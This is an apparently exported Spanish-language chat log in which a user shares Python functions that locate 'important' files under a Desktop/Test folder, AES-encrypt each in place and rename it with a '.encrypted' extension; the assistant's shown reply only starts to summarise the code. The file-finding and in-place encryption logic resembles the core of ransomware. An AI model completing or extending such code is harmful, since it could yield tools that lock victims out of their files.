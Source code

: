 # Cifrado de archivos importantes

**Created:** 3/13/2025 10:12  

## Prompt:
ya teniendo esto en find_files Desktopt/Test :def walk_directory(): 
    so = so_detection()
    if so == "Windows":
        directorio_base = os.environ.get('USERPROFILE', None)
    elif so == "Linux":
        directorio_base = os.environ.get('HOME', None)

    if not directorio_base:
        return "No se ha encontrado el directorio en la variable de entorno."

    directorio = os.path.join(directorio_base, 'Desktop', 'Test')
    if not os.path.isdir(directorio):
        return f"El directorio {directorio} no existe."

    archivos_importantes = []
    # Recorre directorios y subdirectorios recursivamente
    for root, subdirs, files in os.walk(directorio):
        for file in files:
            if important_files(file):
                archivos_importantes.append(os.path.relpath(os.path.join(root, file), directorio))

    return archivos_importantes  # Devuelve solo archivos importantes  // es necesario tener Desktop/test aquí en encrypted.py def cifrar_archivos():
    archivos = walk_directory()  # Se asume que solo devuelve archivos, no diccionarios

    if not isinstance(archivos, list):
        print("Error: No se pudo obtener la lista de archivos.")
        return

    clave = cargar_clave_aes()
    directorio_base = os.path.expanduser("~/Desktop/Test")

    for archivo in archivos:
        ruta_completa = os.path.join(directorio_base, archivo)
        if os.path.isfile(ruta_completa):  # Asegura que es un archivo y no un directorio
            # Cifra el archivo
            cifrar_archivo(ruta_completa, clave)
            
            # Cambia la extensión del archivo a '.enc'
            ruta_nueva = ruta_completa + ".encrypted"
            os.rename(ruta_completa, ruta_nueva):

## Response:
Veo que estás trabajando con un script para cifrar archivos importantes en un directorio específico en el escritorio. Te proporcionaré una visión general de cómo está estructurado el flujo y algunas recomendaciones.

